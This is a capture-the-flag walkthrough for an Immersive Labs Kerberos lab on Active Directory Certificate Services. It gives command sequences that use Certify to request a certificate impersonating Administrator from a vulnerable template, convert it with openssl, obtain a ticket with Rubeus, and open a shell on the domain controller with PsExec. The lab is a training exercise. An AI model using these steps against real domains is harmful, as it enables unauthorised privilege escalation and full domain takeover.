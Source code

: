```yaml
---
date: 2025-03-29
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.12 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Kerberos Ep.12 – Active Directory Certificate Services - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services


![image1](../resources/7d7a429777be4cf19f3ba70208d789a8.png)

# ![image2](../resources/c4da4ac2027b4e3a91982717374c9066.png)

- RDP:

```bash
xfreerdp /v:10.102.155.250 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image3](../resources/a9a5876ac10240f8aad2da637531d87b.png)

- Find vulnerable templates:

```bash
.\Certify.exe find /vulnerable

```

![image4](../resources/4d5053b71ba6429599937c68df085f50.png)


![image5](../resources/1c64d1f5b87b4b968899a696cd2d43c7.png)

Certify request /ca:\<Name of the CA retrieved previously\> /template:\<Name of the vulnerable template\> /altname:\<User to impersonate\>

```bash
.\Certify.exe request /ca:DC01.krbtown.local\krbtown-DC01-CA /template:VulnTemplate /altname:Administrator

```

![image6](../resources/ad0e7c5968c24307849204d267c2bfb7.png)


![image7](../resources/e2efa4d4c0a54ff6840669157a13476a.png)


![image8](../resources/d86ff838cf6a4702bfe5e7ee7efaf3a5.png)

- Copy RSA key and Cert and paste in to Kali (cert.pem):

- Run (Leave passwords blank):

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

![image9](../resources/8e7f664fc6dc4c7fbf64c38c6cb1ef51.png)


![image10](../resources/85bc0f8d3de64b9d8cfab52f5f1134b0.png)


![image11](../resources/85dc7fd2b2ee45a2b23c26ff1d216147.png)

- Copy that file through the mounted drive to the Windows Desktop

- Open Powershell:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:Administrator /ptt

```

![image12](../resources/266bfb7099854794b544397155b6ea0d.png)


![image13](../resources/10154dc0477d4a01b64822ffb0026a7f.png)

- Now that you have a TGT for the administrator user, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```

![image14](../resources/381d5bb04ab04527a744dbb196399635.png)


![image15](../resources/4d997eadf3e646d898b9bcc6d7ae6cf2.png)
